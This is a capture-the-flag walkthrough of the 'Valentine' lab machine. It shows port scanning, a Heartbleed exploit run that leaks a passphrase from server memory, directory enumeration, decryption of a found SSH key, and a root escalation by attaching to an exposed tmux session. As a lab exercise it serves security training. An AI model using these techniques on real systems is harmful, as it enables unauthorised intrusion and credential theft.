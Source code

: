 # Valentine

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:30 EDT
Nmap scan report for 10.129.85.98
Host is up (0.0087s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Heartbleed

Both the HTTP and HTTPS ports just show this image:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

This is a direct hint to use the Heartbleed exploit (the symbol is literally right there!). This exploit takes advantage of the OpenSSL library, allowing attackers to steal information from the memory of the target server.&#x20;

There are tons of PoCs online for this. I used [this](https://gist.github.com/eelsivart/10174134).&#x20;

```
$ python2 exploit.py 10.129.85.98 -p 443 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.129.85.98:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.129.85.98:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.u.....e......&
```

We can make out some base64 at the end, and when decoded it gives `heartbleedbelievethehype`.&#x20;

### Web Enumeration

I did a `gobuster` scan on the web services to see where we can use this thing.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.98 -t 100            
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.98
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/02 08:39:51 Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 310] [--> http://10.129.85.98/dev/]
```

Found a `/dev` endpoint.&#x20;

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

The first directory contains a lot of hex characters. We can download this to a file and convert it from hex to string. This would give a private SSH key:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Since we have a password, we can attempt to write decode the key via `openssl`.&#x20;

```
$ openssl rsa -in privkey.txt -out unencrypted
Enter pass phrase for privkey.txt:
writing RSA key
$ chmod 600 unencrypted
```

Afterwards, just SSH in as `hype` using the key and grab the user flag.

## Privilege Escalation&#x20;

After we are in, we can view the bash history file because it is rather large:

```
hype@Valentine:~$ cat .bash_history
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

So `tmux` is on the machine and it might be running. `tmux` is a terminal multiplexer, which basically means that the terminal is running on another window within the machine. What we can do is just attach ourselves to the existing `tmux` process and get a `root` shell.

```
$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```
